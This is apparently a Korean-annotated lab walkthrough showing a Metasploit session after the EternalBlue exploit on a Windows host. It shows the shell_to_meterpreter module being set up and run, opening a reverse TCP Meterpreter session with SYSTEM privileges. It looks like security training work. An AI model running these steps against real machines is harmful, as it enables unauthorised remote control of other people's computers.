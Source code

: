 Interact with a module by name or index. For example info 20, use 20 or use post/windows/gather/credentials/pulse_secure

msf exploit(windows/smb/ms17_010_eternalblue) >

# 13번 -> use post/multi/manage/shell_to_meterpreter

# show options

![](https://velog.velcdn.com/images/agnusdei1207/post/f679cc60-7cd1-4b80-a309-0ca914eb3c87/image.png)

msf post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

Name Current Setting Required Description

---

HANDLER true yes Start an exploit/multi/handler to receive the connection
LHOST no IP of host that will receive the connection from the payload (Will try to auto detect).
LPORT 4433 yes Port for payload to connect to.
SESSION yes The session to run this module on

# msf post(multi/manage/shell_to_meterpreter) > sessions -l

# Active sessions

Id Name Type Information Connection

---

1 meterpreter x64/windows NT AUTHORITY\SYSTEM @ JON-PC 10.8.136.212:4444 -> 10.201.21.43:49193 (10.201.21.43)

# 세션 지정 -> msf post(multi/manage/shell_to_meterpreter) > set SESSION 1

![](https://velog.velcdn.com/images/agnusdei1207/post/a1c1b181-af3f-43c7-921d-745d0cfe83de/image.png)

# run -> 성공 -> 새로운 세션 2 오픈

msf post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.136.212:4433
[*] Post module execution completed
msf post(multi/manage/shell_to_meterpreter) >
[*] Sending stage (203846 bytes) to 10.201.21.43
[*] Meterpreter session 2 opened (10.8.136.212:4433 -> 10.201.21.43:49197) at 2025-09-16 15:08:28 +0000
[*] Stopping exploit/multi/handler
